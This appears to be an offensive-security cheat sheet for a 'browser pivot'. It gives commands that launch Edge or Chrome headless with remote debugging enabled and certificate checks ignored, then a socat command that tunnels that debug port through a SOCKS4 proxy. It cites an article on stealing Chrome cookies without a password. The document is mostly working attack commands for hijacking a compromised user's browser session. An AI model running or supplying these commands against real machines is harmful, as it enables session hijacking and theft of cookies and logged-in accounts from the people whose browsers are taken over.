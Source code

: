 # Poor Man's Browser Pivot

## 01 - Make Web Browser Debug Mode

### Microsoft Edge

```
C:\> "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --ignore-certificate-errors --remote-debugging-port=<browser_PORT> --user-data-dir=%LOCALAPPDATA%\temp\debug-dir about:blank
```

### Google Chrome

```
C:\> chrome.exe --headless --ignore-certificate-errors --remote-debugging-port=<browser_PORT> --user-data-dir=%LOCALAPPDATA%\temp\debug-dir about:blank
```

## 02 - Port Forwarding

```
$ socat tcp4-listen:<local_PORT>,fork SOCKS4:127.0.0.1:127.0.0.1:<browser_PORT>,socksport=<SOCKS4_PORT>
```

Open google chrome or any chromium-based web browser and enter the URL with `chrome://inspect/`.

---
## References

- [mango.pdf.zone: Stealing Chrome cookies without a password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)